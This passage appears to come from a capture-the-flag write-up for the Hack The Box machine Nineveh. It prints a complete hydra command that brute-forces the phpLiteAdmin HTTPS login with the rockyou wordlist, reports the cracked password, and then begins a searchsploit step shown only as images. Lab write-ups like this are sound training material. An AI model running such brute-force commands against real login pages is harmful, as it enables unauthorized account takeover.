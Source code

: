 ## hydra https
```
hydra -P /usr/share/wordlists/rockyou.txt -s 443 nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -l admin -V
```

![](images/hydra_https.png)

so now I can login using this password --> password123

![](images/phpLiteAdmin_afterLogin.png)

## searchsploit

![](images/searchsploit.png)
